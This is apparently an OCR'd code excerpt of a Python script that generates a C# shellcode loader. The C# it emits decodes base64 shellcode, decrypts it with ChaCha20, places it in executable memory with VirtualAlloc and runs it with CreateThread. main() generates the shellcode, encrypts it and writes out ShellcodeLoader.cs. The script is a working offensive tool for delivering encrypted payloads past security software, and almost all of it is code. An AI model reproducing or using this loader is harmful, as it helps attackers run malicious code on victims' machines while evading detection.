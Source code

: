 ```python
            byte[] encryptedShellcode = Convert.FromBase64String(encryptedShellcodeB64);
            byte[] key = Convert.FromBase64String(keyB64);
            byte[] nonce = Convert.FromBase64String(nonceB64);

            // Decrypt the shellcode
            byte[] decryptedShellcode = DecryptShellcode(encryptedShellcode, key, nonce);

            // Execute the shellcode
            ExecuteShellcode(decryptedShellcode);
        }}

        static byte[] DecryptShellcode(byte[] encryptedShellcode, byte[] key, byte[] nonce)
        {{
            using (var chacha20 = new ChaCha20Managed())
            {{
                chacha20.Key = key;
                chacha20.IV = nonce;
                chacha20.Counter = 0;
                chacha20.Mode = CipherMode.ECB;
                chacha20.Padding = PaddingMode.None;

                using (var decryptor = chacha20.CreateDecryptor())
                {{
                    return decryptor.TransformFinalBlock(encryptedShellcode, 0, encryptedShellcode.Length);
                }}
            }}
        }}

        static void ExecuteShellcode(byte[] shellcode)
        {{
            IntPtr funcAddr = PInvoke.VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, MEM_ALLOCATION_TYPE.MEM_COMMIT, PAGE_PROTECTION_FLAGS.PAGE_EXECUTE_READWRITE);
            Marshal.Copy(shellcode, 0, funcAddr, shellcode.Length);
            IntPtr hThread = PInvoke.CreateThread(IntPtr.Zero, 0, funcAddr, IntPtr.Zero, 0, IntPtr.Zero);
            PInvoke.WaitForSingleObject(hThread, uint.MaxValue);
        }}
    }}
}}
"""
    return csharp_code

def main():
    shellcode = generate_shellcode()
    encrypted_shellcode, key, nonce = encrypt_shellcode(shellcode)
    csharp_code = generate_csharp_code(encrypted_shellcode, key, nonce)

    with open("ShellcodeLoader.cs", "w") as f:
        f.write(csharp_code)

    print("C# code has been generated and saved to ShellcodeLoader.cs")

if __name__ == "__main__":
    main()
```
